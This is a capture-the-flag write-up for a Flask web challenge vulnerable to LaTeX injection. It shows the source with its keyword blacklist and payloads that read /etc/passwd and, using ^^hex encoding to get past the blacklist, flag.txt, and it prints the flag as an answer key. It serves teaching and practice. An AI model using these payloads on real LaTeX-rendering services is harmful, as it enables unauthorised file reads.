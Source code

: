 # Kethal's Transmitter

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: White Box

#### Description: Sending signals over space can take a long time.  Kethal recently built a technology capable of transmitting messages to other galaxies using a specific signal.  If only I could figure out what techniques he uses.

#### Preview:

![image](https://github.com/user-attachments/assets/6c47c66e-d94e-4210-9181-d0e173553ad6)

## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Get Docker container IP address
`sudo docker inspect <container-id> | grep 'IP'`

#### [5] Access challenge website
Access to `http://docker-ip-address:5000`

## Solution
<details>

The web challenge included Flask source code and a webpage with a text input. We may start by just testing it using the string "Hello World" to see how it responds. It appears that the result just displays whatever text we have entered, but this does not lead to anything. Therefore, we investigate the source code to determine what the website is doing.

![image](https://github.com/user-attachments/assets/c95bf775-d98c-40c8-8eb8-8329154a928e)

### Source Code (Python)
```python
from flask import Flask, render_template, request, jsonify
import subprocess
import os
import uuid
import base64
import time
import shutil

app = Flask(__name__)
app.config['SECRET_KEY'] = 'secret_key'
app.config['TEMP_FOLDER'] = 'temp'
app.config['FLAG'] = 'ICTF25{test_flag}'

os.makedirs(app.config['TEMP_FOLDER'], exist_ok=True)

LATEX_TEMPLATE = r"""
\documentclass{{article}}
\usepackage{{amsmath}}
\pagestyle{{empty}}

\begin{{document}}
{}
\end{{document}}
"""

blacklisted = ['flag', '.txt','newread','openin','read','file','line','closein','verbatim','usepackage','verbatiminput','lstinputlisting']

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/render', methods=['POST'])
def render_latex():
    cleanup_old_jobs(app.config['TEMP_FOLDER'])

    latex_code = request.form.get('latex', '')

    for word in blacklisted:
        if word in latex_code.lower():
            return jsonify({'error': 'Forbidden word detected'})

    job_id = str(uuid.uuid4())
    job_dir = os.path.join(app.config['TEMP_FOLDER'], job_id)
    os.makedirs(job_dir, exist_ok=True)

    try:
        flag_path = os.path.join(job_dir, 'flag.txt')
        with open(flag_path, 'w') as f:
            f.write(app.config['FLAG'])  

        full_latex = LATEX_TEMPLATE.format(latex_code)
        tex_file = os.path.join(job_dir, 'document.tex')
        with open(tex_file, 'w') as f:
            f.write(full_latex)

        result = subprocess.run(
            ['pdflatex', '-interaction=nonstopmode', '-output-directory', job_dir, tex_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if result.returncode != 0:
            return jsonify({
                'error': 'Invalid Function!'
            })

        pdf_file = os.path.join(job_dir, 'document.pdf')
        png_file = os.path.join(job_dir, 'output.png')
        convert_result = subprocess.run(
            ['convert', '-density', '150', pdf_file, '-quality', '90', png_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if convert_result.returncode != 0:
            return jsonify({'error': 'Image conversion failed'})

        with open(png_file, 'rb') as f:
            image_data = base64.b64encode(f.read()).decode('utf-8')

        response = {'image': image_data}
        return jsonify(response)

    except subprocess.TimeoutExpired:
        return jsonify({'error': 'Compilation Timed Out'})
    except Exception as e:
        return jsonify({'error': 'An error occurred'})
    finally:
        pass


def cleanup_old_jobs(temp_folder, max_age_seconds=60): 
    now = time.time()
    for job_name in os.listdir(temp_folder):
        job_path = os.path.join(temp_folder, job_name)
        if os.path.isdir(job_path):
            try:
                creation_time = os.path.getctime(job_path)
                if now - creation_time > max_age_seconds:
                    shutil.rmtree(job_path)
            except Exception as e:
                print(f"Cleanup error for {job_path}: {e}")


if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

According to the source code, the website will POST the LaTeX code to route `/render`, which will then be compiled into a PDF and converted to PNG format. The website additionally generates a `TEMP_FOLDER` with a unique ID for storing the rendered code. The `FLAG` is then stored in each job directory as `flag.txt`, with a blacklisting function to prohibit the user from sending certain LaTeX commands or directly accessing the content of the file `flag.txt`. Based on our observations, we can conclude that this website contains [Latex Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection) vulnerability.

We can start by using a simple Latex Injection payload to read a specific file. For this scenario, we are going to read the contents of `/etc/passwd` to test whether does this payload works.

```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

It seems that the website detected some forbidden words and disallow us to print out the contents of the file that we specified. This is because the payload contains blacklisted strings such as `'newread', 'openin', 'read', 'file', 'line', 'closein', 'verbatim', 'usepackage', 'verbatiminput', 'lstinputlisting'`.

![image](https://github.com/user-attachments/assets/b1fa3b60-e075-4aca-8c5b-aa82e99c9af6)

Upon doing some research, there is a simple approach to bypass blacklisted strings by trying to replace one character with it's unicode hex value. Can refer to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md#:~:text=To%20bypass%20a,be%20lower%20case).

![image](https://github.com/user-attachments/assets/cd88bbcf-7b6f-4586-b7d9-b8bb96f9c018)

Encoding the characters to hex should allow us to bypass blacklisted strings. Therefore, we can try use the same payload again and encode some of the characters with its hex value.

![image](https://github.com/user-attachments/assets/1915bb24-8f06-49a1-83b3-e9c322fc7e95)

It seems like the payload works so we can encode the rest of the characters like `flag.txt` to read the content of the file since the filename was also blacklisted. The following payload should look like this:

```
\newr^^65ad\fil^^65
\open^^69n\fil^^65=fl^^61g.t^^78t
\re^^61d\fil^^65 to\lin^^65
\text{\lin^^65}
\close^^69n\fil^^65
```

Using the payload and submitting it into the input will disclose the contents of the file `flag.txt`. Thus, the flag was successfully obtained.

![image](https://github.com/user-attachments/assets/82d48f15-4a35-4436-b332-82c7d361b9da)

### Flag
> ICTF25{dd265d58e3e1941a0cce646df439ea13c931d0159fe5c754cd39c8bad146fea7}

</details>
